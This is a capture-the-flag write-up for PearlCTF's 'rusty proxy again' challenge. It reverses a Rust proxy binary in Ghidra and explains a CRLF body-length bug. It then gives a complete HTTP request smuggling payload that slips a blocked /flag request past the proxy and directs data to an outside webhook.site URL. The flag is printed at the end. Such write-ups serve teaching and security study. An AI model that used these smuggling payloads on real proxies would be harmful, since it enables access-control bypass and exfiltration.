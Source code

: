 # rusty proxy again
## Solution
We are provided with a binary which acts as the proxy.

Opening the binary in ghidra and seeing the main function

![main function](main_fn.png)

We can see the main function, following the function we get that a closure is called in a thread.

![closure function](closure_fn.png)

we find the references of this closure, we get to a function where we find handle connection function

![refernce](reference.png)
![handle function](handle_fn.png)

following the function, we find parse function

![parse](parse_fn.png)

now we analyse the function and find out that the request is splitted with `\r\n`

![split](split.png)

so if the body also had a `\r\n`, it will be splitted.

The bug was that the body length was calculated by incrementing the index by one after setting the headers.

```
Header 1\r\n
Header 2\r\n
\r\n
foo=bar\r\n
REQ 2
```

so the content length will be the length of `foo=bar` only, and the function sends the headers first and entire body one after the other.

Also to make the player reverse the binary, we added a custom header which is verified in the proxy `ctf: PearlCTF`

![header](custom_header.png)

the `/flag` request is blocked in the proxy, so we needed to smuggle it.

Hence the final payload will be

```
POST /show HTTP/1.1
Host: rusty-proxy.ctf.pearlctf.in
Content-Length: 206
Content-Type: application/x-www-form-urlencoded
ctf: PearlCTF

name=begulaaa
POST /flag HTTP/1.1
Host: rusty-proxy.ctf.pearlctf.in
Content-Length: 64
Content-Type: application/x-www-form-urlencoded

to_req=https://webhook.site/7c0b4f46-d927-4d8e-8601-3d70d049fe4c
```

![flag](flag.png)

## Flag
`pearl{I_sh0uld_h4v3_t3sted_mY_pR0xY}`